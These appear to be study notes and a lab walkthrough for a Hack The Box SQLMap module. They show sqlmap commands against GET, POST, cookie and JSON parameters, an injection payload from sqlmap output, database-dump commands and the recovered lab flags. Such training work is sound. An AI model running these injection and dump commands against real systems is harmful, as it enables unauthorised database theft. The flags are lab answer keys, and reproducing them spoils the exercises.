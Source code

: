 # Running SQLMap on an HTTP Request

## Curl Commands

On Browser :  Copy as cURL

-> Changing cURL by sqlmap

sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'

GET :
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'

POST :
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'

## Full HTTP Requests

Captured from within a specialized proxy application

write to a request file > req.txt

GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0

sqlmap -r req.txt

## Custom SQLMap Requests

sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'

Specify method :
sqlmap -u www.target.com --data='id=1' --method PUT

## Custom HTTP Requests

cat req.txt

HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}

sqlmap -r req.txt

## LAB

### POST PARAMETER

sqlmap -u 'http://94.237.62.195:56120/case2.php' --data 'id=1' 

[10:26:15] [INFO] POST parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Rice")

id=1 AND (SELECT 3224 FROM(SELECT COUNT(*),CONCAT(0x716b786b71,(SELECT (ELT(3224=3224,1))),0x717a766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

sqlmap -u 'http://94.237.62.195:56120/case2.php' --data 'id=1' --batch --dump-all

sqlmap -u 'http://94.237.62.195:56120/case2.php' --data 'id=1' --batch --dump flag2

Database: testdb
Table: flag2
[1 entry]
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+

### COOKIE VALUE

sqlmap -u 'http://94.237.62.195:56120/case3.php' --cookie='id=1' --batch --dump flag3

sqlmap -u 'http://94.237.62.195:56120/case3.php' -H='Cookie:id=1' --batch --dump flag3

--> Failed

sqlmap -u 'http://94.237.62.195:56120/case3.php' --cookie "id=*" --batch --dump flag3

cat /home/htb-ac-786011/.local/share/sqlmap/output/94.237.62.195/dump/testdb/flag3.csv

id,content
1,HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}

### JSON VALUE

POST /case4.php HTTP/1.1
Host: 94.237.62.195:56120
Content-Length: 8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.62.195:56120
Referer: http://94.237.62.195:56120/case4.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"id":1}

cat req.txt

POST /case4.php HTTP/1.1
Host: 94.237.62.195:56120
Content-Length: 8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.62.195:56120
Referer: http://94.237.62.195:56120/case4.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"id":1}

sqlmap -r req.txt --batch --dump flag4

cat /home/htb-ac-786011/.local/share/sqlmap/output/94.237.62.195/dump/testdb/flag4.csv

id,content
1,HTB{j450n_v00rh335_53nd5_6r475}
